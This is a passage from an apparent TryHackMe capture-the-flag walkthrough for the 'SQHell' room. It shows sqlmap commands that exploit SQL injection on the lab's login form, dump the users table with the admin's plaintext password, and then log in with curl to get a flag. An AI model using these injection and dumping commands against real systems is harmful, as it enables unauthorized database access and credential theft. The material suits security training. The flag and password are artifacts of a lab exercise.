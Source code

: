 ```bash
# Dump tables for "sqhell_2" DB.
sqlmap -u "http://sqhell.thm/login" --data "username=admin&password=admin" --batch --dbms=mysql --threads 10 -D sqhell_2 --tables

Database: sqhell_2
[1 table]
+-------+
| users |
+-------+

# 4
# columns for the "users" table.
sqlmap -u "http://sqhell.thm/login" --data "username=admin&password=admin" --batch --dbms=mysql --threads 10 -D sqhell_2 -T users --dump-all

Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | icantrememberthispasswordcanyou | admin    |
+----+---------------------------------+----------+

```
{% endcode %}

With the password found for the admin user we can either login in via the browser or use curl again to get the flag.

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ curl -s http://sqhell.thm/login -X POST -d "username=admin&password=icantrememberthispasswordcanyou" | html2text 


Login Register
****** Logged In ******
Logged In
THM{FLAG1:E786483E5A53075750F1FA792E823BD2}
```
{% endcode %}

## Flag 5 - In-Band/Union

In the [http://sqhell.thm/post?id=1](http://sqhell.thm/post?id=1) page.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
